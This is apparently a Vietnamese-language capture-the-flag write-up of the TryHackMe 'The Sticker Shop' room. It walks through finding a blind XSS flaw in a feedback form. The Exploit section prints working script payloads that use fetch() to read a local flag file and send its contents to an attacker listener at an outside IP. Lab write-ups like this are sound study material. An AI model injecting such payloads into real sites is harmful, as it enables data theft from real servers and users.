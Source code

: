 # [THM] The Sticker Shop write-up

- IP: 10.10.50.39

## Recon

Đầu tiên ta sẽ thử truy cập tới đường dẫn flag mà đề bài đã cho xem sao

![Flag fail](./img/flag-fail.png)

Hiện tại thì không có quyền để đọc flag

Truy cập với port 8080 ta nhận được trang web có 2 page `Home` và `Feedback`

![Homepage](./img/homepage.png)

Khám phá thì có vẻ homepage không có gì để ta khai thác cả

![Feedback page](./img/feedback-page.png)

Feedback page sau khi kiểm tra và thử gửi submit thì thấy có respose trả về như ảnh trên, ta có thể nghi ngờ với lỗ hổng **XSS**. Để rõ hơn ta cần tiếp tục khai thác

## Exploit

Ta sẽ tạo http server trên máy attacker để kiểm tra payload `XSS` mà ta gửi

```js
<script>fetch('http://10.21.113.26:1234/?l='+location.href)</script>
```

![Payload test](./img/payload-test.png)

Ta nhận được response như hình vậy đã xác định được chính xác page này có thể bị khai thác bởi lỗ hổng `XSS`

Khi kiêm tra với payload dưới ta không nhận lại được response nào cả 
```js
<script>
fetch('http://10.10.50.39:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    fetch('http://10.21.113.26:1234/?data=' + data);
  })
</script>
```

Và ta có thể nhận thấy sau khi tôi gửi payload để kiểm tra thì thấy location hiện tại là `http://127.0.0.1:8080/` chứ không phải `http://10.10.50.39:8080`

Ta cần chỉnh sửa payload để get được flag 

```js
<script>
fetch('http://127.0.0.1:8080/flag.txt')
  .then(res => res.text())
  .then(data => {
    fetch('http://10.21.113.26:1234/?data=' + data);
  })
</script>
```

Với payload trên nội dung file flag sẽ được lấy thông qua fetch và sau đó response trả về sẽ được chuyển thành text và cuối cùng sẽ được gửi tới máy attacker

## flag.txt
Sau khi gửi payload trên thì đã get được flag

![Flag](./img/flag.png)

![Done](./img/completed.png)

**DONE**